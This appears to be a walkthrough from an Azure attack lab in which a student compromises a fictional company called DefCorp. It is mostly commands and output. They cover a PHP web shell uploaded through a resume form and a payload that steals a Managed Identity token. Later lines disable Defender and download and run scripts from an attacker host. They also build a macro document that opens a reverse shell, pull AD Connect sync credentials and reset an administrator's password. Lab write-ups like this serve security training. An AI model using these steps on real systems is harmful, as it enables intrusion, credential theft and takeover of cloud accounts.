 # Path 2
- `https://defcorphqcareer.azurewebsites.net/` has an interesting feature that allows us to send a resume. We can check that for possible file upload vulnerabilities. We can upload the following PHP web shell and access it at `https://defcorphqcareer.azurewebsites.net/uploads/student72shell.phtml?cmd=whoami`.
```php
<?php 
system($_REQUEST['cmd']);
?>
```

- The commands are executed, so we can leverage that to steal tokens from the Managed Identity using the following payload, which we can access at `https://defcorphqcareer.azurewebsites.net/uploads/student72armtoken.phtml`.
```php
<?php 
system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');
?>
```

- We can use the stolen token to authenticate to Azure as the Managed Identity.
```powershell
PS C:\Auditor> $armtoken = 'eyJ0eXA...J_XKGt1Ghw'
PS C:\Auditor> Connect-AzAccount -AccountId 064aaf57-30af-41f0-840a-0e21ed149946 -AccessToken $armtoken

Account                              SubscriptionName TenantId                             Environment
-------                              ---------------- --------                             -----------
064aaf57-30af-41f0-840a-0e21ed149946 DefCorp          2d50cb29-5f7b-48a4-87ce-fe75a941adb6 AzureCloud

PS C:\Auditor> Rename-AzContext "DefCorp (b413826f-108d-4049-8c11-d52d5d388768) - 2d50cb29-5f7b-48a4-87ce-fe75a941adb6 - 064aaf57-30af-41f0-840a-0e21ed149946" "DefCorp (b413826f-108d-4049-8c11-d52d5d388768) - 2d50cb29-5f7b-48a4-87ce-fe75a941adb6 - defcorphqcareer"
```

- We can now list all the available Resources to that Managed Identity.
```powershell
PS C:\Auditor> Get-AzResource


Name              : bkpadconnect
ResourceGroupName : Engineering
ResourceType      : Microsoft.Compute/virtualMachines
Location          : germanywestcentral
ResourceId        : /subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Engineering/providers/Microsoft.Compute/virtualMachines/bkpadconnect
Tags              :

Name              : bkpadconnect/MicrosoftMonitoringAgent
ResourceGroupName : Engineering
ResourceType      : Microsoft.Compute/virtualMachines/extensions
Location          : germanywestcentral
ResourceId        : /subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Engineering/providers/Microsoft.Compute/virtualMachines/bkpadconnect/extensions/MicrosoftMonitoringAgent
Tags              :

Name              : bkpadconnect368
ResourceGroupName : Engineering
ResourceType      : Microsoft.Network/networkInterfaces
Location          : germanywestcentral
```

[172.16.1.250]: PS C:\Users\Administrator\Documents> Set-MpPreference -DisableRealtimeMonitoring $true
[172.16.1.250]: PS C:\Users\Administrator\Documents> iex (New-Object Net.Webclient).downloadstring("http://172.16.150.72:82/Out-Word.ps1")
[172.16.1.250]: PS C:\Users\Administrator\Documents> Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadstring('http://172.16.150.72:82/Invoke-PowerShellTcp.ps1');Power -Reverse -IPAddress 172.16.150.72 -Port 4444" -OutputFile student72.doc
[172.16.1.250]: PS C:\Users\Administrator\Documents> exit
[20.52.148.232]: PS C:\Users\student72\Documents> whoami;hostname
[20.52.148.232]: PS C:\Users\student72\Documents> dir C:\Users\
[20.52.148.232]: PS C:\Windows\Tasks> cat C:\Users\bkpadconnect\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
[172.16.1.21]: PS C:\Users\Administrator\Documents> Get-ADSyncConnector
[172.16.1.21]: PS C:\Users\Administrator\Documents> Import-Module C:\Users\Administrator\Documents\AADInternals\AADInternals.psd1
[172.16.1.21]: PS C:\Users\Administrator\Documents> Get-AADIntSyncCredentials
[172.16.1.21]: PS C:\Users\Administrator\Documents> $passwd = ConvertTo-SecureString 'password' -AsPlainText -Force
[172.16.1.21]: PS C:\Users\Administrator\Documents> $creds = New-Object System.Management.Automation.PSCredential ("Sync_DEFENG-ADCNCT_782bef6aa0a9@defcorpsecure.onmicrosoft.com", $passwd)
[172.16.1.21]: PS C:\Users\Administrator\Documents> Get-AADIntAccessTokenForAADGraph -Credentials $creds –SaveToCache
[172.16.1.21]: PS C:\Users\Administrator\Documents> Get-AADIntUser -UserPrincipalName onpremadmin@defcorpsecure.onmicrosoft.com | select ImmutableId
[172.16.1.21]: PS C:\Users\Administrator\Documents> Set-AADIntUserPassword -SourceAnchor "E2gG19HA4EaDe0+3LkcS5g==" -Password "SuperSecretpass#12321"
